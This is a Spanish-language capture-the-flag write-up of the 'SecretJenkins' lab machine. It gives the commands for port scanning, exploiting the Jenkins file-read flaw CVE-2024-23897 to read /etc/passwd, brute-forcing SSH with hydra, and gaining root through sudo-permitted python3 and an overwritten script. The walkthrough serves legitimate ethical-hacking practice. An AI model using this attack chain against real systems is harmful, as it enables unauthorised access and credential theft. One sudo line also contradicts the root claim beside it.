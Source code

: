# **Máquina: SecretJenkins**

### **Dificultad:** Fácil

### 📝 **Descripción:**

SecretJenkins es una máquina vulnerable de nivel fácil orientada a la práctica de técnicas esenciales de pentesting. A través de un entorno web basado en Jenkins, el atacante deberá identificar servicios expuestos, reconocer vulnerabilidades conocidas, explotar una LFI (Local File Inclusion), obtener credenciales mediante fuerza bruta, y finalmente realizar una doble escalada de privilegios para obtener acceso total como root.

### 🎯 **Objetivo:**

El objetivo es comprometer completamente la máquina escalando privilegios hasta el usuario root, iniciando desde el análisis de puertos, explotación del servicio Jenkins, acceso mediante SSH y aprovechamiento de configuraciones de `sudo` para lograr el control total del sistema.


![Logo](Imágenes/2025-05-15_20-59.png)

---

## 🖥️ **Despliegue de la máquina**

Primero descargamos la máquina vulnerable `secretjenkins.zip`, la descomprimimos con `unzip` y luego la desplegamos utilizando el script proporcionado:

```bash
unzip secretjenkins.zip
sudo bash auto_deploy.sh secretjenkins.tar
```

Esto levanta la máquina en un entorno Docker.
![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Hacemos un ping a la IP asignada (`172.17.0.3`) para confirmar que la máquina está activa:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo con `nmap` para detectar todos los puertos abiertos de la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:

* **22 (SSH)**
* **8080 (HTTP)**
  ![Puertos](Imágenes/Capturas_2.png)

Posteriormente, con un script personalizado `extractPorts`, extraemos los puertos encontrados y los usamos para un escaneo más profundo:

```bash
nmap -sCV -p22,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Exploración del servicio web**

Al acceder en el navegador a la URL `http://172.17.0.3:8080/`, observamos que se trata del panel de **Jenkins**, un software de integración continua muy utilizado.
![Pagina](Imágenes/Capturas_4.png)

---

## 🚪 **Fuzzing de directorios ocultos**

Usamos `gobuster` para buscar rutas ocultas que puedan revelar vulnerabilidades o recursos sensibles:

```bash
gobuster dir -u http://172.17.0.3:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Aunque se encontraron muchos directorios, al acceder a varios de ellos el sitio comenzó a fallar, lo que sugiere una posible **vulnerabilidad de Denegación de Servicio (DoS)**.
![Fuzzing](Imágenes/Capturas_5.png)

---

## 🕵️‍♂️ **Identificación de la versión de Jenkins**

Con `whatweb` identificamos que Jenkins está corriendo en la versión **2.441**:

```bash
whatweb 'http://172.17.0.3:8080/'
```

![whatweb](Imágenes/Capturas_6.png)

Aunque `searchsploit` no arrojó resultados relevantes para esta versión, buscando manualmente en internet encontramos una vulnerabilidad **LFI (Local File Inclusion)** identificada como:

🔎 **CVE-2024-23897**
📄 Exploit: [https://www.exploit-db.com/exploits/51993](https://www.exploit-db.com/exploits/51993)

---

## 🐍 **Ejecución del exploit**

Copiamos el código del exploit en un archivo llamado `local_host_intrusion.py`, le damos permisos de ejecución y lo lanzamos:

```bash
chmod +x local_host_intrusion.py
python3 local_host_intrusion.py -u http://172.17.0.3:8080
```

El script permite leer archivos del sistema. Uno de los primeros archivos que leemos es `/etc/passwd`, lo cual nos revela la existencia de varios usuarios: `root`, `bobby`, y `pinguinito`.
![sxploit](Imágenes/Capturas_7.png)

---

## 🧨 **Ataque de fuerza bruta (Brute Force) sobre SSH**

Con los usuarios obtenidos, creamos un archivo `usuarios.txt` y lanzamos un ataque de fuerza bruta con `hydra` sobre el servicio SSH:

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

¡Éxito! Se encontraron credenciales válidas:

* **Usuario:** `bobby`
* **Contraseña:** `chocolate`
  ![hydra](Imágenes/Capturas_8.png)

---

## 🔐 **Acceso inicial como bobby**

Nos conectamos por SSH con las credenciales encontradas:

```bash
ssh bobby@172.17.0.3
```

Luego verificamos los permisos de `sudo` con:

```bash
sudo -l
```

Y encontramos que `bobby` puede ejecutar `python3` como el usuario `pinguinito` sin contraseña. Aprovechamos esto para escalar de usuario:

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![usuario](Imágenes/Capturas_9.png)

---

## 🚀 **Escalada a root**

Ya como `pinguinito`, volvemos a revisar los privilegios con `sudo -l` y descubrimos que tiene permisos para ejecutar un script específico:

```bash
(pinguinito) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Esto significa que puede ejecutar **ese archivo específico** con permisos de root. Si podemos modificar ese archivo, podemos ganar acceso total.

Eliminamos el contenido original (si existe) y escribimos un script malicioso que nos dé una shell:

```bash
echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

Luego lo ejecutamos con:

```bash
sudo /usr/bin/python3 /opt/script.py
```

¡Y obtenemos acceso como **root**!
![usuario](Imágenes/Capturas_10.png)

---

## 🏁 **Conclusión**

Esta máquina nos permitió practicar múltiples técnicas fundamentales en el hacking ético:

* Escaneo y enumeración de servicios
* Reconocimiento de versiones y fuzzing
* Explotación de vulnerabilidad LFI
* Ataque de fuerza bruta sobre SSH
* Escalada de privilegios usando `sudo`
* Abuso de scripts con permisos específicos

Una máquina ideal para quienes están empezando, ya que cubre un flujo de ataque muy completo de forma práctica y comprensible.
